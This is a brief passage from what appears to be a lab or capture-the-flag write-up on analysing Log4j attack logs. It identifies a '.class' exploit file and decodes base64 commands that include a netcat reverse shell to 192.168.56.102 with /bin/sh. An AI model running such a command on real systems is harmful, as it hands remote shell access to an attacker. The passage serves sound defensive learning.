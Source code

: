 - Investigate the **`http.log`** file. What is the extension of the exploit file?

![](/assets/img/Pasted image 20240306162728.png)

	- `.class`


- Investigate the `log4j.log` file. Decode the ***base64*** commands. What is the name of the created file?
Commands:

![](/assets/img/Pasted image 20240306162823.png)

<u>Decoded</u>:
```c
touch /tmp/pwned

which nc > /tmp/pwned

nc 192.168.56.102 80 -e /bin/sh -vvv
```













